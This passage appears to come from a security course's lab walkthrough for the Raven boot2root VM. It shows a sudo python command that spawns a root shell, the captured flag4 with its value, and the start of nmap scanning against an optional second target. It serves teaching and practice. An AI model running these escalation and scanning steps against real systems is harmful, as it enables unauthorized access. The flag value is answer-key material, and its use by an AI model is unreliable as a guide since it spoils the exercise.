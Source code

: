 9. Escalate to `root`.
   - One flag can be discovered after this step.:w

  ```bash
  $ sudo python -c 'import pty;pty.spawn("/bin/bash");'
  root@TARGET1:/ > id
  uid=0(root) gid=0(root) groups=0(root)
  root@TARGET1:/ > cd /root
  root@TARGET1:/root > ls
  flag4.txt
  root@TARGET1:/root > cat flag4.txt
   ______                 	 
  | ___ \                	 
  | |_/ /__ ___   _____ _ __  
  |	/  /  _` \ \ / / _ \ '_ \
  | |\ \ (_| |\ V /  __/ | | |
  \_| \_\__,_| \_/ \___|_| |_|

                          
  flag4{715dea6c055b9fe3337544932f2941ce}

  CONGRATULATIONS on successfully rooting Raven!

  This is my first Boot2Root VM - I hope you enjoyed it.

  Hit me up on Twitter and let me know what you thought:

  @mccannwj / wjmccann.github.io
  ```

Try to complete all of these steps. However, you may move on after capturing only _two_ of the four flags if you're running out of time.

#### Attacking Target 2

Please note, you **do not need to attack Target 2**. It is included as an additional challenge for those who are interested in assessing a more complex web application. You should complete the Wireshark analysis _first_, and only attempt this challenge afterwards. 

The steps for completing this assessment are enumerated below. All details required to capture the first 3 flags on Target 2 are included.

1. Use Nmap to identify the IP address of Target 2.

  ```bash
  # Reveals Target 2 at `192.168.1.115`
  $ nmap -sP 192.168.1.1-255
  ```

2. Use Nmap to document all exposed ports and services at this IP address.

  ```bash
  # Reveals Target 2 at `192.168.1.115`
  $ nmap -sV 192.168.1.115
  ```

